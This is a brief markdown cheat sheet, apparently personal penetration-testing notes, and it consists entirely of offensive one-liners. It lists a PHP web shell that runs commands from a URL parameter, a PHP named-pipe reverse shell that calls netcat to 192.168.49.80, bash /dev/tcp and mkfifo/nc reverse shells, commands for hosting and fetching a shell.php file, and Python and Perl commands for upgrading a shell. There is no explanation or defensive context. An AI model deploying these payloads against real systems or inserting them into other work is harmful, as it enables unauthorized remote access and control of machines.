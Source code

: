 # Temp Page.

**PHP web shell**
`<?php system($_GET[‘cmd’]);?>`

`"<?php passthru('rm -f /tmp/x; mkfifo /tmp/x; /bin/sh -c \"cat /tmp/x | /bin/sh -i 2>&1 | nc 192.168.49.80 80 > /tmp/x\"'); ?>"` 

**Bash Reverse shell**
 `bash -i >& /dev/tcp/<localIP>/<port> 0>&1`

**Named pipe reverse shell**
`mkfifo /tmp/f; nc <ip> <port>< /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

**Getting shell through file**

Local system:
`python3 -m http.server <port>`

Attacking system:
`wget http://<ip:port>/shell.php`

**Spawning a shell after callback** 
`python -c 'import pty;pty.spawn("/bin/bash")’`

` echo “os.system('/bin/bash')”`

` perl -e 'exec "/bin/sh";’`

